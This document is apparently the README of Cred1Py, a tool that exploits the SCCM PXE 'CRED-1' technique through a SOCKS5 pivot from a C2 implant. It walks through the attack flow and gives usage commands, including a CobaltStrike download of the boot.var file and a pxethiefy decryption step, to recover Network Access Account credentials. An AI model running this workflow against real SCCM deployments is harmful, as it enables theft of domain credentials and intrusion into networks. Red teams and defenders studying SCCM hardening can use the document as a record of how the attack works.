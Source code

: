 ## Overview

This is a tool used to exploit CRED-1 over a SOCKS5 connection (with UDP support).

## How CRED-1 Works

CRED-1 can be broken down into the following steps:

1. Send a DHCP Request for the PXE image over UDP 4011
2. SCCM responds with image path and crypto keys to decrypt the referenced variables file

At this stage, two files are downloaded over TFTP:

1. 
2. 

Next CRED-1 takes the crypto keys also returned in the DHCP response, and takes one of two paths depending on the content:

1. If the crypto key is provided, password based encryption is disabled, and therefore a key derivation function is run to produce an AES key to decrypt the variables file

OR

2. If no crypto key is provided, password based encryption is enabled, and a HashCat ouotput is produced from the variables file to allow us to recover the encryption key

Once the key has been recovered (or provided), the variable file can be decrypted and the contents can be used to retrieve Network Access Account username/password.

## Usage

To use Cred1Py:

```
python ./main.py <target> <src_ip> <socks_host> <socks_port>
```

Target - The SCCM PXE server IP
SRC_IP - The IP address of the host we are running the implant on
SOCKS_HOST - The IP of the team server running SOCKS5
SOCKS_PORT - The SOCKS5 port

## How Cred1Py Works

Cred1Py attempts to perform this flow over a SOCKS5 connection, due to UDP support being provided as part of the SOCKS5 specification.

There are a few differences to tools like PxeThief as SOCKS5 limits our ability to retrieve TFTP files (we can't determine the source port used during the data transfer).

This means that the requirements for Cred1Py are:

1. An implant executing with SOCKS5 enabled
2. Ability to make a SMB connection to a distribution server (this replaces the TFTP component of PxeThief)

Once the requirements are met, Cred1Py:

1. Sends a DHCP Request for the PXE image and crypto key
2. Retrieves the crypto keying material
3. Downloads the first 512 bytes of the variables file (possible as this is sent by TFTP server without establishing a TID which needs source port)
4. Outputs either a crypto key, or a hashcat hash, as well as the path to the boot variable file returned via DHCP

At this point, we will need to use our C2 to download the boot variable file, for example in CobaltStrike we can use:

```
download \\sccmserver.lab.local\REMINST\SMSTemp\BootFileName.boot.var
```

We then use PxeThiefy to decrypt the `boot.var` file with our recovered key:

```
python ./pxethiefy.py decrypt -f /tmp/out.boot.var PASSWORD_HERE
```



